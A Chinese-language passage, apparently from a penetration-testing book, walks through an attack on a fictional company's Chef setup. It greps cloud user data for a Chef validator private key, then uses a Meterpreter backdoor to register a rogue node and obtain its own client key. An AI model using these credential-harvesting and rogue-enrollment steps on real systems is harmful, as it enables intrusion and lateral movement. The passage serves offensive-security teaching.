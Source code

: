 完美。现在到了关键时刻。这些出色的服务器中有哪一台在其用户数据中声明了 Chef 私钥？我们寻找“RSA PRIVATE KEY”关键字：

```
root@Point1:~/# **grep -7 "BEGIN RSA PRIVATE KEY" i-*.txt**
`--snip--`
1 cat << EOF
chef_server_url 'https://chef.mxrads.net/organizations/mxrads'
validation_client_name 'chef-validator'
EOF
)> /etc/chef/client.rb

`--snip--`
2 cat << EOF
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqg/6woPBdnwSVjcSRQenRJk0MePELfPp
`--snip--`
)> /etc/chef/validation.pem
```

这几乎太简单了。第一段代码定义了 Chef 使用的关键参数，并将其存储在 *client.rb* 文件中。第二段代码将私钥写入名为 *validation.pem* 的文件。

这个私钥与我们希望获得的不同，但我们会让它发挥作用。我们获得的密钥是一个验证密钥，它是 *chef-validator* 用户的私钥，分配给实例以建立它们与 Chef 服务器的第一次联系。*chef-validator* 不允许列出机器、食谱或执行其他敏感操作，但它拥有注册客户端（机器）的最终权限，最终授予它们可以执行上述操作的私钥。事事顺利，最终大功告成。

这个用户的私钥在所有希望加入 Chef 服务器的实例之间共享。所以，自然地，我们也可以使用它注册一台额外的机器，并获得我们自己的私钥。我们只需要模拟一个真实的客户端配置，并在 VPC 内部向 Chef 服务器请求。

我们创建所需的文件来启动机器注册——*client.rb* 1 和 *validation.pem* 2——并将从用户数据脚本中收集到的数据填充到这些文件中，如下所示。这只是懒惰的复制粘贴而已：

```
meterpreter > **execute -i -f cat << EOF**
chef_server_url 'https://chef.mxrads.net/organizations/mxrads'
validation_client_name 'chef-validator'
EOF
)> /etc/chef/client.rb

meterpreter > **execute -i -f cat << EOF**
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqg/6woPBdnwSVjcSRQenRJk0MePELfPp
`--snip--`
)> /etc/chef/validation.pem
```

然后，我们从我们的后门中下载并执行 Chef 客户端，启动我们的机器注册过程：

```
meterpreter > **execute -i -f apt update && apt install -y chef**
meterpreter > **execute -i -f chef-client**

Starting Chef Client, version 14.8.12
Creating a new client identity for aws-node-78ec.eu-west-1.compute.internal
using the validator key.

Synchronizing Cookbooks:
Installing Cookbook Gems:
Compiling Cookbooks...
Running handlers complete
Chef Client finished, 0/0 resources updated in 05 seconds

meterpreter > **ls /etc/chef/**

client.pem client.rb validation.pem
```
